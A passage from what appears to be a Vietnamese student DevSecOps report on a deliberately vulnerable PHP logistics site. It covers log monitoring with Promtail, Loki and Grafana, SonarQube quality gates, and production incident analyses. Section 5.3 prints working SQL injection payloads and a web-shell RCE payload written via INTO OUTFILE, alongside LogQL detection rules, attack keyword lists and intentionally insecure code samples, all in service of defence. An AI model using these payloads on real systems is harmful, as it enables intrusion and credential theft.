   ```
   Việc chuẩn hóa này cho phép các tác tử thu thập nhật ký phân tích cú pháp trực tiếp mà không cần sử dụng các biểu thức chính quy phức tạp, giảm thiểu tối đa tải tính toán trên máy chủ.

### 4.2. Thu thập và xem log tập trung trên Grafana (Promtail & Loki)

#### 4.2.1. Kiến trúc lưu trữ và tối ưu tài nguyên của Loki
* **Promtail 3.0 Collector:** Đóng vai trò là tác tử thu thập nhật ký. Promtail kết nối trực tiếp vào tệp socket của Docker Daemon `/var/run/docker.sock`, tự động phát hiện các vùng chứa có nhãn giám sát, bóc tách cấu trúc JSON và đính kèm các nhãn định danh `container="ilfreight_web"` và `service_name="ilfreight_web"`.
* **Grafana Loki 3.0 Engine:** Khác với các hệ thống Elasticsearch tiêu tốn dung lượng RAM lớn (thường đòi hỏi từ 4GB đến 8GB RAM chỉ cho tầng chỉ mục), Loki chỉ thực hiện đánh chỉ mục trên các nhãn siêu dữ liệu (metadata labels) và nén các đoạn nhật ký thành các khối dữ liệu nhị phân (chunks) lưu trữ trên ổ đĩa. Cách tiếp cận này giúp giảm thiểu hơn 80% dung lượng lưu trữ cần thiết, cho phép triển khai bền vững trên các máy chủ VPS cấu hình tiết kiệm tài nguyên.
* **Ngôn ngữ truy vấn LogQL:** Sử dụng cú pháp tương đồng với PromQL, kết hợp bộ lọc nhãn và bộ lọc nội dung:
  ```logql
  # Đếm tần suất các yêu cầu có dấu hiệu tấn công SQL Injection trong 5 phút
  sum by (client_ip) (
    count_over_time(
      {container="ilfreight_web"} 
      | json 
      | uri =~ "(?i).*(union.*select|sleep\\(|extractvalue|information_schema).*" [5m]
    )
  )
  ```

#### 4.2.2. Bảng điều khiển trực quan hóa 8 phân vùng giám sát an ninh
Bảng điều khiển trung tâm mang tên *"InlaneWeb Logistics — Centralized Observability & Anomaly Dashboard"* (`inlaneweb-observability`) được nạp tự động qua cơ chế Provisioning của Grafana, chia tách thành 8 bảng hiển thị độc lập:
1. **Panel 1 — Application Cause Exceptions & Runtime Stacktraces:** Trực quan hóa toàn bộ chuỗi lỗi nghiệp vụ PHP, Root Cause, tên file, số dòng và Stack Trace khi ứng dụng phát sinh lỗi.
2. **Panel 2 — SQL Injection (SQLi) Attacks in HTTP Traffic:** Lọc vết các truy vấn chứa payload tấn công cơ sở dữ liệu (`UNION SELECT`, `SLEEP`, `extractvalue`, `load_file`, `into outfile`).
3. **Panel 3 — Path Traversal & Local File Inclusion (LFI/RFI):** Bắt các hành vi dò tìm tệp hệ thống (`../`, `/etc/passwd`, `win.ini`, `php://filter`).
4. **Panel 4 — Cross-Site Scripting (XSS) in HTTP Traffic:** Nhận diện các thẻ kịch bản độc hại và sự kiện JavaScript (`<script>`, `onerror=`, `onload=`, `document.cookie`).
5. **Panel 5 — Remote Code Execution & Command Injection (CMDi):** Bắt các ký tự ghép lệnh shell Linux (`; cat`, `| whoami`, `&& nc`, `/bin/sh`).
6. **Panel 6 — HTTP Error-Based Response Leaks & 4xx/5xx Server Faults:** Giám sát lưu lượng lỗi HTTP 404, 500, 503 và các thông báo lỗi cơ sở dữ liệu bị rò rỉ ra phía người dùng.
7. **Panel 7 — Multi-Vector Security Incident Rate (Events/sec):** Biểu đồ chuỗi thời gian (Timeseries) phân tầng mức độ nghiêm trọng của các vector tấn công theo thời gian thực.
8. **Panel 8 — MariaDB Database Diagnostics:** Theo dõi nhật ký hoạt động nội bộ và chẩn đoán truy vấn của container cơ sở dữ liệu `ilfreight_db`.

#### 4.2.3. Thắt chặt an ninh Grafana Dashboard (Security Hardening)
Do bảng điều khiển chứa toàn bộ nhật ký ứng dụng nhạy cảm (thông tin truy vấn cơ sở dữ liệu, địa chỉ IP máy khách, dấu vết payload và tài khoản người dùng), việc bảo vệ cổng giám sát là yêu cầu an ninh tối thượng:
* **Vô hiệu hóa truy cập nặc danh (Disable Anonymous Access):**
  Cấu hình `GF_AUTH_ANONYMOUS_ENABLED=false` trong tệp điều phối [`InlaneWeb/docker-compose.monitoring.yml`](file:///d:/PTIT-DevOps-SonarQube/InlaneWeb/docker-compose.monitoring.yml). Mọi yêu cầu truy cập giao diện web đều bắt buộc phải vượt qua bước xác thực tài khoản quản trị.
* **Chính sách mật khẩu quản trị viên ngẫu nhiên (Strong Random Admin Password):**
  Thay thế hoàn toàn mật khẩu mặc định bằng chuỗi ký tự ngẫu nhiên có độ dài 24 ký tự có độ phức tạp cao, triệt tiêu nguy cơ tấn công brute-force hoặc chiếm quyền thông qua tài khoản mặc định.
* **Tự động hóa đồng bộ và làm sạch cơ sở dữ liệu xác thực:**
  Khi thay đổi mật khẩu trong biến môi trường, cơ sở dữ liệu SQLite hiện hữu của Grafana không tự động cập nhật bảng người dùng cũ. Do đó, đường ống CD tự động xóa bỏ volume lưu trữ SQLite cũ (`docker volume rm inlaneweb-monitoring_grafana_data`) và thực thi lệnh cập nhật mật khẩu trực tiếp qua `grafana cli admin reset-admin-password` ngay sau khi container khởi động thành công, bảo đảm 100% chính sách mật khẩu mới có hiệu lực tức thời.

### 4.3. Tự động khởi động lại container khi gặp sự cố (Autoheal)
Một hệ thống tự vận hành an toàn bắt buộc phải có khả năng tự phục hồi khi xảy ra sự cố đột ngột:
* **Cơ chế thăm dò nội bộ:** Trong định nghĩa dịch vụ, chỉ thị `healthcheck` liên tục thực hiện truy vấn thăm dò nhịp tim nội bộ `curl -f http://localhost/health` mỗi 30 giây một lần. Nếu ứng dụng web bị treo do tràn bộ nhớ hoặc tiến trình Apache bị khóa chết, container sẽ chuyển sang trạng thái unhealthy.
* **Bộ điều khiển tự phục hồi Autoheal:** Container `willfarrell/autoheal` lắng nghe các sự kiện trạng thái từ Docker Engine. Khi phát hiện một vùng chứa rơi vào trạng thái unhealthy quá 3 chu kỳ liên tiếp, Autoheal sẽ tự động kích hoạt lời gọi hàm API khởi động lại vùng chứa đó một cách an toàn mà không làm gián đoạn các dịch vụ khác trong cùng hệ thống.

---

## CHƯƠNG 5: CÁC TÌNH HUỐNG SỰ CỐ VÀ TẤN CÔNG THỰC TẾ

Chương này mô tả chi tiết các sự cố kỹ thuật và nguy cơ bảo mật trong thực tế vận hành: từ các lỗi mã nguồn bị phát hiện và ngăn chặn ở giai đoạn phát triển (Dev CI Gate) cho đến các sự cố hạ tầng và hành vi tấn công mạng trên môi trường máy chủ sản xuất (Production Runtime Operations).

### 5.1. Các lỗi mã nguồn bị SonarQube chặn khi lập trình

Trong đường ống CI/CD, SonarQube đóng vai trò là "người gác cổng" tại **Stage 2: Dev Gate** ([`.github/workflows/devsecops-pipeline.yml`](file:///d:/PTIT-DevOps-SonarQube/.github/workflows/devsecops-pipeline.yml)). Bất kỳ đoạn mã nguồn nào muốn được tích hợp vào nhánh `dev` đều phải vượt qua bộ chỉ số Quality Gate tại [`ci/sonarqube-quality-gate.json`](file:///d:/PTIT-DevOps-SonarQube/ci/sonarqube-quality-gate.json).

Dưới đây là 4 tình huống vi phạm điển hình mà SonarQube phát hiện và chặn đứng:

#### 5.1.1. Chặn câu lệnh SQL nối chuỗi nguy hiểm (Blocker)
* **Hành vi vi phạm trong mã nguồn:**
  Lập trình viên ghép trực tiếp biến người dùng `$_GET['q']` vào chuỗi truy vấn cơ sở dữ liệu:
  ```php
  // Đoạn mã vi phạm do lập trình viên commit
  $query = "SELECT id, code, city, country, volume FROM ports WHERE code LIKE '%" . $_GET['q'] . "%'";
  $result = mysqli_query($conn, $query);
  ```
* **Quy tắc vi phạm của SonarQube:**
  Động cơ phân tích cú pháp AST của SonarScanner kích hoạt quy tắc:
  * **Mã quy tắc (Rule ID):** `php:S2077` — *"Formatting SQL queries is security-sensitive"*.
  * **Phân loại & Mức độ:** Lỗ hổng bảo mật (Vulnerability) — Mức độ Chặn đứng (Blocker).
* **Tác động tới Quality Gate và cơ chế chặn:**
  1. Chỉ số bảo mật `security_rating` lập tức bị hạ từ mức 1 (Rating A) xuống mức 5 (Rating E).
  2. SonarQube kích hoạt điều kiện vi phạm `{"metric": "security_rating", "op": "GT", "error": "1"}`, đánh dấu Quality Gate ở trạng thái **`ERROR / FAILED`**.
  3. Kịch bản điều phối [`ci/sonarqube.py check`](file:///d:/PTIT-DevOps-SonarQube/ci/sonarqube.py) đọc tệp trạng thái và trả về mã lỗi `sys.exit(1)`.
  4. GitHub Actions Runner dừng khẩn cấp Job Stage 2. Stage 3 (Preview Stack) và Stage 4 (CD) bị hủy bỏ.
  5. GitHub Branch Protection Rules lập tức **vô hiệu hóa nút bấm Merge Pull Request**, ngăn chặn hoàn toàn mã lỗi lọt vào nhánh tích hợp.

#### 5.1.2. Chặn để lộ mật khẩu trong mã nguồn (Blocker)
* **Hành vi vi phạm trong mã nguồn:**
  Khai báo trực tiếp mật khẩu cơ sở dữ liệu trong tệp kết nối `lib/db.php`:
  ```php
  // Vi phạm lưu trữ mật khẩu cứng
  $db_host = "ilfreight_db";
  $db_user = "root";
  $db_pass = "p@ssw0rd"; // Hard-coded database password
  $conn = mysqli_connect($db_host, $db_user, $db_pass, "ilfreight");
  ```
* **Quy tắc vi phạm:** `php:S181` / `secrets:S6702` — *"Credentials should not be hard-coded"* (Blocker).
* **Cơ chế chặn:** SonarQube đánh dấu vi phạm Blocker, hạ `security_rating` về mức E, ngắt đường ống CI/CD và yêu cầu lập trình viên đưa mật khẩu vào biến môi trường `getenv('DB_PASS')` và GitHub Secrets.

#### 5.1.3. Chặn Cookie thiếu cờ bảo mật (Security Hotspot)
* **Hành vi vi phạm:** Khởi tạo Cookie phiên làm việc mà không bật cờ bảo vệ:
  ```php
  // Thiếu cờ HttpOnly và Secure
  setcookie("auth_token", $token, time() + 3600, "/");
  ```
* **Quy tắc vi phạm:** `php:S2255` — *"Using cookies without the 'HttpOnly' and 'Secure' flags is security-sensitive"* (Security Hotspot).
* **Cơ chế chặn:** Điều kiện `{"metric": "security_hotspots_reviewed", "op": "LT", "error": "100"}` yêu cầu 100% điểm nóng phải được rà soát. Do chưa được phê duyệt ($0\% < 100\%$), Quality Gate báo `FAILED`, chặn merge Pull Request.

#### 5.1.4. Chặn mã nguồn có nợ kỹ thuật và code rác (Code Smell)
* **Hành vi vi phạm:** Một hàm xử lý chứa quá nhiều vòng lặp và câu lệnh rẽ nhánh lồng nhau phức tạp.
* **Quy tắc vi phạm:** `php:S3776` — *"Cognitive Complexity of functions should not be too high"* (Code Smell — Major).
* **Cơ chế chặn:** Độ phức tạp cao làm chỉ số bảo trì `sqale_rating` tụt xuống B/C, vi phạm ngưỡng chất lượng và buộc lập trình viên phải tái cấu trúc (Refactoring) mã nguồn trước khi được tích hợp.

---

### 5.2. Các sự cố web và hạ tầng trên môi trường Production

Trong môi trường vận hành thực tế tại `https://inlaneweb.ecotools.online`, các sự cố hệ thống có thể phát sinh từ cơ sở hạ tầng hoặc lỗi logic phần mềm. Sự phối hợp giữa [`InlaneLogger`](file:///d:/PTIT-DevOps-SonarQube/InlaneWeb/web/src/lib/logger.php), Promtail và Grafana Loki đảm bảo mọi lỗi đều được bắt trọn vẹn:

#### 5.2.1. Sự cố mất kết nối cơ sở dữ liệu (HTTP 500 / 503)
* **Bản chất lỗi:** Container `ilfreight_db` khởi động trễ hoặc bị quá tải, MariaDB chưa kịp lắng nghe trên cổng 3306, gây ra lỗi `mysqli_sql_exception: Connection refused (SQLSTATE[HY000] [2002])`.
* **Mã HTTP Response trả về:**
  * Người dùng nhận mã **HTTP 500 Internal Server Error**.
  * Endpoint kiểm tra nhịp tim [`/health`](file:///d:/PTIT-DevOps-SonarQube/InlaneWeb/web/src/pages/health.php) trả về mã **HTTP 503 Service Unavailable** cùng JSON:
    ```json
    {
      "status": "DOWN",
      "database": "disconnected",
      "error": "Connection refused",
      "timestamp": "2026-10-23T14:40:00Z"
    }
    ```
* **Quy tắc thu thập của Promtail:**
  1. *Tầng ứng dụng:* Hàm `InlaneLogger::logException()` đóng gói JSON với kênh `APP-EXCEPTION`, trích xuất `cause_chain` và `stack_trace` đẩy ra `stderr`.
  2. *Tầng Promtail ([`promtail-config.yml`](file:///d:/PTIT-DevOps-SonarQube/InlaneWeb/monitoring/promtail/promtail-config.yml)):*
     * Khớp **Quy tắc 2 (Application Exception Rule)**: gán nhãn `log_category="app_exception"`, `level="error"`.
     * Khớp **Quy tắc 5 (HTTP 5xx Server Fault Rule)**: bóc tách `"status": 500` hoặc `503`, gán nhãn `vuln_category="error_based_leak"`.
* **Hiển thị trên Grafana:**
  * **Panel 1 (Application Cause Exceptions & Runtime Stacktraces):** Hiển thị dòng log viền đỏ, mở rộng xem được toàn bộ vết lỗi trong `lib/db.php`.
  * **Panel 6 (HTTP Error-Based Response Leaks & 4xx/5xx Server Faults):** Ghi nhận lưu lượng HTTP 500/503.
  * **Panel 7 (Multi-Vector Incident Rate):** Biểu đồ chuỗi thời gian của 5xx dựng đứng.
* **Cú pháp lọc lỗi LogQL trên Grafana:**
  ```logql
  {container="ilfreight_web", log_category="app_exception"} 
  | json 
  | class =~ ".*(mysqli_sql_exception|PDOException).*" 
  | line_format "{{.timestamp}} [LỖI KẾT NỐI DB] tại {{.file}}:{{.line}} -> {{.message}}"
  ```

#### 5.2.2. Lỗi truy cập trang không tồn tại (HTTP 404)
* **Bản chất lỗi:** Người dùng nhập sai đường dẫn, hoặc bot tự động quét các tệp nhạy cảm không tồn tại (`/wp-login.php`, `/.env`).
* **Mã HTTP Response trả về:** **HTTP 404 Not Found**.
* **Quy tắc thu thập:** Apache Access Log JSON ghi nhận `"status": 404`. Promtail kích hoạt Quy tắc 5 bóc tách và gán nhãn `log_category="http_traffic"`.
* **Hiển thị trên Grafana:** Panel 6 liệt kê chi tiết URI, Client IP và User-Agent để phân biệt người dùng nhập nhầm hay bot đang dò quét.
* **Cú pháp lọc lỗi LogQL trên Grafana:**
  ```logql
  topk(10, sum by (uri) (
    count_over_time({container="ilfreight_web"} | json | status == 404 [15m])
  ))
  ```

#### 5.2.3. Sự cố sập ứng dụng do tràn bộ nhớ (Fatal Error)
* **Bản chất lỗi:** Tiến trình kết xuất dữ liệu quá lớn vượt quá mức cấu hình `memory_limit = 128M` trong [`php.ini`](file:///d:/PTIT-DevOps-SonarQube/InlaneWeb/web/php.ini), phát sinh lỗi `Fatal error: Allowed memory size exhausted`.
* **Mã HTTP Response trả về:** **HTTP 500 Internal Server Error** (Apache ngắt kết nối trắng trang).
* **Quy tắc thu thập:** Hàm `InlaneLogger::logShutdown()` qua `register_shutdown_function` bắt lấy `error_get_last()`, phát ra JSON `"type":"fatal_shutdown_error"`, `"level":"fatal"`. Promtail Quy tắc 2 bắt trọn vẹn và gán nhãn `level="error"`.
* **Hiển thị & lọc LogQL:** Panel 1 hiển thị thẻ đỏ mức fatal; lọc bằng:
  ```logql
  {container="ilfreight_web", log_category="app_exception"} | json | type == "fatal_shutdown_error" or level == "fatal"
  ```

#### 5.2.4. Sự cố xung đột Orphan Containers giữa hai Compose Projects song song
* **Triệu chứng sự cố:** Trong lượt chạy Production CD (Run #39985446211), Job `Deploy Observability Platform` bị thất bại khẩn cấp với thông báo lỗi: `dependency failed to start: Error response from daemon: No such container...`.
* **Phân tích nguyên nhân gốc rễ (Root Cause Analysis - RCA):**
  1. Hai tệp điều phối [`InlaneWeb/docker-compose.monitoring.yml`](file:///d:/PTIT-DevOps-SonarQube/InlaneWeb/docker-compose.monitoring.yml) và [`InlaneWeb/docker-compose.prod.yml`](file:///d:/PTIT-DevOps-SonarQube/InlaneWeb/docker-compose.prod.yml) cùng thực thi trong thư mục `/opt/inlaneweb` nhưng không chỉ định tên project rõ ràng.
  2. Mặc định Docker Compose gán tên project theo tên thư mục làm việc (`inlaneweb`).
  3. Khi Job Giám sát chạy lệnh `docker compose ... up -d --remove-orphans`, Docker Compose xem xét toàn bộ container thuộc project `inlaneweb`. Do `ilfreight_web` và `ilfreight_db` không nằm trong tệp monitoring, Docker xem chúng là container mồ côi (orphans) và tiến hành dừng/xóa chúng.
  4. Đồng thời, Job Web chạy song song với cờ `--remove-orphans` lại xem `ilfreight_loki` và `ilfreight_grafana` là mồ côi và xóa bỏ `ilfreight_loki` ngay thời điểm Promtail và Grafana đang chờ Loki đạt trạng thái healthy. Hai tiến trình tranh chấp tài nguyên và tiêu diệt lẫn nhau.
* **Giải pháp khắc phục triệt để:**
  1. *Phân lập không gian định danh Project:* Khối giám sát được gán `name: inlaneweb-monitoring` (cờ `-p inlaneweb-monitoring`), khối web được gán `name: inlaneweb-prod` (cờ `-p inlaneweb-prod`). Nhờ đó, cờ `--remove-orphans` chỉ dọn dẹp các container trong phạm vi nội bộ của chính project đó.
  2. *Chuyển đổi luồng thực thi tuần tự:* Cấu hình `production_deploy_web` phụ thuộc vào `production_deploy_monitoring` (`needs: [production_smoke_test, production_deploy_monitoring]`), đảm bảo cụm giám sát khởi động và vượt qua kiểm tra nhịp tim trước rồi mới triển khai ứng dụng web.

#### 5.2.5. Sự cố đứt gãy kết nối mạng nội bộ giữa Reverse Proxy và Web (502 Bad Gateway)
* **Triệu chứng sự cố:** Người dùng truy cập tên miền `https://inlaneweb.ecotools.online/` bị Cloudflare chặn lại và hiển thị trang lỗi **Bad Gateway (Error code 502)**. Trong khi đó, lệnh kiểm tra `docker ps` trên máy chủ VPS xác nhận container `ilfreight_web` vẫn đang ở trạng thái `Up (healthy)`.
* **Phân tích nguyên nhân gốc rễ (RCA):**
  1. Hệ thống Reverse Proxy sử dụng container `proxy-manager-app-1` (Nginx Proxy Manager) thuộc mạng Docker riêng biệt (`proxy-manager_default`).
  2. Cấu hình Nginx Proxy Host định tuyến tên miền `inlaneweb.ecotools.online` tới upstream hostname là `ilfreight_web` trên cổng 80.
  3. Khi mạng Docker `inlaneweb_net` được tái tạo hoặc cập nhật trong quá trình triển khai, container `proxy-manager-app-1` bị ngắt kết nối khỏi mạng này.
  4. Động cơ phân giải tên miền nội bộ của Nginx trong container NPM không thể tìm thấy địa chỉ IP của container `ilfreight_web`, dẫn tới lỗi không thể kết nối tới upstream server và Cloudflare trả về mã lỗi 502 Bad Gateway.
* **Giải pháp khắc phục triệt để:**
  1. Thực thi lệnh gắn kết container Reverse Proxy vào mạng bridge của ứng dụng:
     ```bash
     docker network connect inlaneweb_net proxy-manager-app-1
     ```
  2. Nginx ngay lập tức phân giải được hostname `ilfreight_web`, lưu lượng HTTP được phục hồi thông suốt và mã phản hồi trả về trạng thái **HTTP 200 OK**.

#### 5.2.6. Sự cố phân giải tên miền phụ Grafana (ERR_NAME_NOT_RESOLVED)
* **Triệu chứng sự cố:** Quản trị viên truy cập vào địa chỉ `https://grafana.ecotools.online/` nhưng trình duyệt thông báo lỗi không thể tìm thấy máy chủ: `ERR_NAME_NOT_RESOLVED`.
* **Phân tích nguyên nhân gốc rễ (RCA):**
  Tên miền gốc `ecotools.online` được ủy quyền quản lý DNS tại Cloudflare. Khi nhóm nghiên cứu khởi tạo Proxy Host trong Nginx Proxy Manager cho subdomain `grafana.ecotools.online`, bản ghi DNS `A` hoặc `CNAME` tương ứng cho tiền tố `grafana` chưa được khai báo trên bảng quản lý DNS của Cloudflare.
* **Giải pháp khắc phục triệt để:**
  1. *Cấu hình bản ghi DNS trên Cloudflare:* Tạo bản ghi loại `A` với tên (Name) là `grafana`, giá trị nội dung trỏ về địa chỉ máy chủ VPS, kích hoạt trạng thái bảo vệ đám mây cam (Proxied).
  2. *Cấu hình Proxy Host trên Nginx Proxy Manager:* Định tuyến `grafana.ecotools.online` tới container `ilfreight_grafana` trên cổng `3000`. Kích hoạt tính năng **Websockets Support** và chứng chỉ SSL để bảo mật kênh truyền telemetry thời gian thực.
  3. Sau khi DNS phân giải toàn cầu (thời gian lan truyền dưới 30 giây), quản trị viên có thể truy cập cổng giám sát bảo mật hoàn chỉnh qua giao thức HTTPS.

---

### 5.3. Các kịch bản tấn công thực tế và cách phát hiện qua log

Nhóm nghiên cứu đã thực nghiệm trực tiếp 14 kịch bản khai thác an ninh trên hệ thống thực nghiệm [`InlaneWeb/writeup.md`](file:///d:/PTIT-DevOps-SonarQube/InlaneWeb/writeup.md). Phần này phân tích chi tiết 4 kịch bản đại diện:

#### 5.3.1. Tấn công trích xuất dữ liệu bằng lỗi XPath (Error-based)
* **Điểm cuối bị tấn công:** `GET /ports/{code}` (Lỗ hổng V2).
* **Payload khai thác:**
  ```http
  GET /ports/CN' AND extractvalue(1, concat(0x7e, (SELECT password FROM users WHERE username='admin')))-- - HTTP/1.1
  Host: inlaneweb.ecotools.online
  ```
* **Mã HTTP Response và nội dung trả về:** Do bật `display_errors = On` và in kết quả `mysqli_error()`, máy chủ phản hồi mã **HTTP 200 OK** (hoặc HTTP 500 nếu ném ngoại lệ), thân trang HTML rò rỉ trực tiếp mật khẩu:
  ```html
  <div class="alert alert-danger">
    Database Error: XPATH syntax error: '~p@ssw0rd'
  </div>
  ```
* **Quy tắc Promtail thu thập:**
  1. *Quy tắc 4A (SQLi Attack Vector):* Khớp từ khóa `extractvalue` và `--` trong URI, gán nhãn `vuln_category="sqli"`, `level="critical"`.
  2. *Quy tắc 5 (Error Leak):* Khớp cụm từ `syntax error`, gán nhãn `traffic_type="error_based_leak"`.
* **Hiển thị trên Grafana:** Panel 2 báo động dòng truy vấn chứa `extractvalue`; Panel 6 hiển thị giá trị rò rỉ `~p@ssw0rd`; Panel 7 hiển thị số lượng sự kiện SQLi tăng vọt.
* **Cú pháp lọc LogQL trên Grafana:**
  ```logql
  {container="ilfreight_web", vuln_category="sqli"} | json | uri =~ "(?i).*extractvalue.*"
  ```
  ```logql
  {container="ilfreight_web"} |~ "(?i)XPATH syntax error"
  ```

#### 5.3.2. Tấn công ghép bảng đọc dữ liệu nhạy cảm (UNION-based)
* **Điểm cuối bị tấn công:** `GET /ports?q=` (Lỗ hổng V1).
* **Payload khai thác:**
  ```http
  GET /ports?q=cn' UNION SELECT username, password_hash, api_key, 4 FROM dev.credentials-- - HTTP/1.1
  Host: inlaneweb.ecotools.online
  ```
* **Mã HTTP Response và nội dung trả về:** Mã **HTTP 200 OK**, danh sách cảng biển bị chèn thêm dòng thông tin nhạy cảm của tài khoản quản trị: `dev_admin | 392037dbba51f692776d6cefb6dd546d | DEV-KEY-super-secret-0xC0FFEE`. Nếu thăm dò sai số cột bằng `ORDER BY 5`, phản hồi thông báo: `Unknown column '5' in 'order clause'`.
* **Quy tắc Promtail thu thập:** Quy tắc 4A khớp `union(\s+|%20|\+)select` trong Apache Access Log JSON, gán nhãn `vuln_category="sqli"`, `level="critical"`.
* **Hiển thị & lọc LogQL:** Panel 2 hiển thị địa chỉ IP kẻ tấn công và câu lệnh trích xuất dữ liệu; lọc bằng:
  ```logql
  {container="ilfreight_web", vuln_category="sqli"} | json | query =~ "(?i).*union.*select.*"
  ```

#### 5.3.3. Tấn công suy diễn dữ liệu bằng độ trễ thời gian (Time-based Blind)
* **Điểm cuối bị tấn công:** `GET /api/track?tracking=` (Lỗ hổng V4).
* **Payload khai thác:**
  ```http
  GET /api/track?tracking=ILF1042CN' AND SLEEP(5)-- - HTTP/1.1
  Host: inlaneweb.ecotools.online
  ```
* **Mã HTTP Response và nội dung trả về:** Mã **HTTP 200 OK** với JSON bình thường `{"found": false}` (hoàn toàn nuốt lỗi trong nội dung trả về), nhưng thời gian phản hồi bị kéo dài bất thường: $\Delta t_{\text{response}} \ge 5000\text{ms}$ (5 giây).
* **Quy tắc Promtail thu thập:** Quy tắc 4A khớp từ khóa `sleep\(` trong tham số `tracking`, gán nhãn `vuln_category="sqli"`, `level="critical"`. Apache log ghi nhận trường độ trễ tăng vọt.
* **Hiển thị & lọc LogQL:** Panel 2 ghi nhận yêu cầu chứa `SLEEP(5)`; biểu đồ độ trễ p99 của container tăng vọt từ 20ms lên trên 5000ms; lọc bằng:
  ```logql
  {container="ilfreight_web", vuln_category="sqli"} | json | uri =~ "(?i).*(sleep|benchmark)\(.*"
  ```

#### 5.3.4. Tấn công tải mã độc chiếm quyền điều khiển (Web Shell RCE)
* **Điểm cuối bị tấn công:** `GET /admin/console` (V12) và `GET /ports?q=` (V1).
* **Payload khai thác:**
  ```sql
  cn' UNION SELECT '<?php if(isset($_REQUEST["cmd"])) system($_REQUEST["cmd"]); ?>', 2, 3, 4 INTO OUTFILE '/var/lib/mysql-files/shell.php'-- -
  ```
  Sau đó thực thi lệnh: `GET /files/shell.php?cmd=id`
* **Mã HTTP Response và nội dung trả về:**
  * Yêu cầu ghi tệp: Trả về **HTTP 200 OK** (tạo file thành công).
  * Yêu cầu gọi backdoor: Trả về **HTTP 200 OK** với nội dung `uid=33(www-data) gid=33(www-data)`, kẻ tấn công chính thức thực thi mã từ xa (RCE) trên máy chủ.
* **Quy tắc Promtail thu thập:**
  1. Promtail Quy tắc 4A bắt từ khóa `into(\s+|%20|\+)outfile` (gán nhãn `vuln_category="sqli"`, `level="critical"`).
  2. Promtail Quy tắc 4D (RCE & Command Injection) bắt cú pháp `cmd=id` hoặc `;\s*(cat|ls|id|whoami)` gửi tới `shell.php`, gán nhãn `vuln_category="command_injection"`, `level="critical"`.
* **Hiển thị & lọc LogQL:** Panel 2 cảnh báo ghi tệp `INTO OUTFILE`; Panel 5 báo động khẩn cấp hành vi gọi lệnh hệ thống `id`; lọc bằng:
  ```logql
  {container="ilfreight_web", vuln_category="command_injection"} | json
  ```

---

#### 5.3.5. Bảng tổng hợp đối chiếu 14 kịch bản thực tế

| Mã Điểm Lỗi | Điểm cuối (API Endpoint) | Kỹ thuật / Hành vi Thực tế | Cơ chế Ngăn chặn của SonarQube & Semgrep (Dev CI Gate) | Năng lực Ghi vết của Promtail & Grafana Loki (Production Telemetry) | Mã HTTP Response Trả về khi Khai thác |
| :---: | :--- | :--- | :--- | :--- | :---: |
| **V1** | `GET /ports?q=` | In-band UNION Data Extraction | **CHẶN ĐỨNG** (Rule `php:S2077` & `php-sqli-taint`) | **GHI VẾT 100%** (Promtail Rule 4A: `vuln_category="sqli"`) | HTTP 200 (Lộ dữ liệu) / HTTP 500 |
| **V2** | `GET /ports/{code}` | Error-based XPath Injection | **CHẶN ĐỨNG** (Chỉ số `security_rating` tụt mức E) | **GHI VẾT 100%** (Bắt chuỗi `extractvalue` & lỗi cú pháp) | HTTP 200 (Rò lỗi `XPATH error`) / 500 |
| **V3** | `POST /login` | Boolean Auth Bypass (`' OR '1'='1`) | **CHẶN ĐỨNG** (CWE-89 Pattern Taint Analysis) | **GHI VẾT 100%** (Bắt chuỗi `or 1=1` và `admin'-- -`) | HTTP 302 Redirect (Chiếm phiên) |
| **V4** | `GET /api/track` | Time-based Blind (`SLEEP`) | **CHẶN ĐỨNG** (Taint Sink Detection) | **GHI VẾT 100%** (Bắt hàm `sleep(` & độ trễ mạng $\ge 5$s) | HTTP 200 (Độ trễ $\ge 5000$ms) |
| **V5** | `GET /account?order=` | Order-by Clause Injection | **CHẶN ĐỨNG** (Local Rule: `taint-order-by`) | **GHI VẾT 100%** (Bắt biểu thức logic trong tham số) | HTTP 200 (Lộ khóa API qua lỗi) |
| **V6** | `POST /account/update`| UPDATE Statement Injection | **CHẶN ĐỨNG** (CWE-89 Pattern) | **GHI VẾT 100%** (Bắt payload sửa đổi trái phép dữ liệu) | HTTP 302 Redirect / HTTP 200 |
| **V7** | `GET /shipments/{id}` | Numeric UNION / Error SQLi | **CHẶN ĐỨNG** (Taint Sink Detection) | **GHI VẾT 100%** (Bắt UNION trên tham số định danh số) | HTTP 200 / HTTP 500 |
| **V8** | `POST /comments` | INSERT Statement Injection | **CHẶN ĐỨNG** (CWE-89 Pattern) | **GHI VẾT 100%** (Ghi nhận nỗ lực chèn dữ liệu ô nhiễm) | HTTP 302 Redirect |
| **V9** | `POST /comments/del` | DELETE Statement Injection | **CHẶN ĐỨNG** (Taint Sink Detection) | **GHI VẾT 100%** (Bắt payload xóa dữ liệu ngoài phạm vi) | HTTP 302 Redirect |
| **V10**| `GET /admin` | Customer Search Blind/UNION | **CHẶN ĐỨNG** (Rule `php:S2077`) | **GHI VẾT 100%** (Bắt payload trích xuất tài khoản khách hàng) | HTTP 200 |
| **V11**| `POST /admin/export` | CREATE TABLE Injection | **CHẶN ĐỨNG** (Rule `ban-multi-query`) | **GHI VẾT 100%** (Bắt câu lệnh tạo bảng tùy ý) | HTTP 200 |
| **V12**| `GET /admin/console` | Stacked Query / Web Shell RCE | **CHẶN ĐỨNG** (Rule `mysqli_multi_query` Blocker) | **CẢNH BÁO ĐỎ** (Promtail Rule 4A & 4D: CMDi / RCE) | HTTP 200 (Thực thi lệnh `id`) |
| **V13**| `GET /reports/down` | File Disclosure (`LOAD_FILE`)| **CHẶN ĐỨNG** (Rule `file-disclosure`) | **GHI VẾT 100%** (Bắt nỗ lực đọc tệp `/etc/passwd`) | HTTP 200 / HTTP 500 |
| **V14**| `GET /news?id=` | Numeric UNION-based SQLi | **CHẶN ĐỨNG** (Rule `php:S2077`) | **GHI VẾT 100%** (Bắt payload UNION đọc bảng người dùng) | HTTP 200 |

* **Đánh giá hiệu quả tổng thể:** 
  Cơ chế kiểm soát đa tầng chứng minh rằng: nếu lỗ hổng vô tình vượt qua sự rà soát của con người, đường ống Stage 2 (SonarQube Quality Gate Rating A kết hợp Semgrep) sẽ phát hiện và **chặn đứng 100% (14/14)** nguy cơ ngay tại thời điểm mở Pull Request vào nhánh `dev`. Trong trường hợp giả định mã nguồn đã tồn tại trên Production, hạ tầng quan sát Promtail và Grafana Loki ghi nhận chính xác 100% các vector tấn công, phân loại nhãn tự động và cung cấp đầy đủ thông tin điều tra (IP, URI, Payload, mã lỗi HTTP) phục vụ việc ứng phó sự cố theo thời gian thực.

---

### 5.4. Biện pháp vá lỗi và phòng thủ an toàn

